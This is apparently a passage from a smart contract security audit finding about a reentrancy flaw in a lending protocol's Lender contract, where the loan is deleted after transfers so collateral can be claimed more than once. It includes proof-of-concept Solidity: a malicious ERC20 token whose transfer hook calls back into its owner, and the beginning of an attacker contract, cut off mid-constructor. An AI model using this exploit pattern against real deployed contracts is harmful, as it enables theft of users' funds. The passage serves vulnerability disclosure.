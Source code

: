 ```solidity
                loan.debt,
                loan.collateral,
                loan.interestRate,
                loan.startTimestamp
            );
            // delete the loan
@>            delete loans[loanId];
        }
```

**Impact:** User's can claim collateral more than once, which will lead to losses.

**Proof Of Code:**

File: ExploitToken.sol

```solidity
//SPDX-License-Indeitifer:MIT
pragma solidity ^0.8.16;

import {ERC20} from "../lib/openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";


contract ExploitToken is ERC20{

address owner;
    constructor(uint256 amount)ERC20("ExploitToken","ET"){
            owner = msg.sender;
            _mint(msg.sender, amount);
    }

    // This function overrides _afterTokenTransfer, a virtual function in the OpenZeppelin ERC20 contract.
    // It executes after every token transfer (transfer, transferFrom, or _mint). This hook will execute on all toke transfers
    function _afterTokenTransfer(address from, address to, uint256 amount) internal override {
        (bool status,) = owner.call(abi.encodeWithSignature("tokensReceived(address,address,uint256)", from, to, amount));
        require(status, "call failed");
    }
} 
```

File: Exploit7.sol

```solidity
//SPDX-License-Identifer: MIT
pragma solidity ^0.8.16;

import {ExploitToken} from "../src/ExploitToken.sol";
import {ERC20} from "../lib/openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "../src/utils/Structs.sol";
import "../src/Lender.sol";

contract Exploit7{  

    Lender lender;
    bool loanBorrowed;
    uint256 i;
    address collateralToken;
    ExploitToken exploitToken;

    constructor(Lender _lender, address _collateralToken){
        lender=_lender;
        collateralToken=_collateralToken;
    }
```